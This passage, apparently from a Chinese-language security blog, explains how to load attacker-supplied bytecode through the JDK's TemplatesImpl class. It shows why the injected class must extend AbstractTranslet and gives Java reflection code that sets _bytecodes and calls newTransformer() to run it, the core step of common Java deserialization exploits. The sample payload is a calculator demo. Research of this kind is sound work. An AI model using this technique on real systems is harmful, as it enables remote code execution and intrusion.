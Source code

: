 classCount 的值是 1，导致`_auxClasses`就成了 null，而这段`if (superClass.getName().equals(*ABSTRACT_TRANSLET*))`superClass 是我们写入危险类的父类，而这段代码要求 superClass 为`ABSTRACT_TRANSLET`(`private static String ABSTRACT_TRANSLET = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";`) 才返回真，我们的目标就是不执行下面的 else，同时\_transletIndex < 0 才不会，所以我们将我们的危险类继承 com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。

[![](assets/1700127979-db321124a5161da4e3ccaf9b0079d972.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155216-0faba90e-8455-1.png)

```bash
public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
    }
```
